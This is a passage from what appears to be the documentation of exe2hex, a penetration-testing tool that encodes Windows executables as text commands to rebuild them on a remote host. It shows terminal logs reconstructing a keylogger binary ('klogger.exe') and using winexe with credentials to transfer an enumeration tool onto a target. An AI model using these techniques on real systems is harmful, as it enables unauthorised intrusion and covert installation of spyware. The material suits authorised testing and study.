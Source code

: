 ```bash
C:\DOCUME~1\winxp\LOCALS~1\Temp>C:\DOCUME~1\winxp\LOCALS~1\Temp>   (Progress: 376/382)
move /Y klogger.0 klogger.exe
C:\DOCUME~1\winxp\LOCALS~1\Temp>C:\DOCUME~1\winxp\LOCALS~1\Temp>   (Progress: 377/382)
echo. >klogger.hex
C:\DOCUME~1\winxp\LOCALS~1\Temp>C:\DOCUME~1\winxp\LOCALS~1\Temp>   (Progress: 378/382)
del /F /Q klogger.hex klogger.0
C:\DOCUME~1\winxp\LOCALS~1\Temp>C:\DOCUME~1\winxp\LOCALS~1\Temp>   (Progress: 379/382)
 Volume in drive C has no label.
 Volume Serial Number is 002C-A3B2

 Directory of C:\DOCUME~1\winxp\LOCALS~1\Temp

06/09/2017  10:19 AM            23,552 klogger.exe
               1 File(s)         23,552 bytes
               0 Dir(s)  40,501,571,584 bytes free

C:\DOCUME~1\winxp\LOCALS~1\Temp>C:\DOCUME~1\winxp\LOCALS~1\Temp>   (Progress: 380/382)


[i] Done

C:\DOCUME~1\winxp\LOCALS~1\Temp>
```


### WinEXE

Like the Telnet mode (`-t`), exe2hex can automate using winexe to transfer files across, inline, using expect:

```bash
$ python3 exe2hex.py -x /usr/share/windows-binaries/mbenum/mbenum.exe -p mbenum.cmd -w
[*] exe2hex v1.5
[+] Successfully wrote (PoSh) /root/mbenum.cmd
[+] Successfully wrote (Expect) /root/mbenum-posh-winexe
$
$ expect /root/mbenum-posh-winexe
Usage: ./mbenum-posh-winexe <ip> <username> <password>
$
$ ./mbenum-posh-winexe 192.168.103.147 win7 123456789

spawn winexe -U win7%123456789 //192.168.103.147 cmd.exe

Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>cd %TEMP%
cd %TEMP%

C:\Windows\Temp>echo 656082.0>mbenum.cmd
echo 656082.0>mbenum.cmd

C:\Windows\Temp>type mbenum.cmd
type mbenum.cmd
656082.0

[i] Writeable folder!


C:\Windows\Temp>del /F mbenum.cmd
del /F mbenum.cmd

C:\Windows\Temp>echo|set /p="">mbenum.hex

```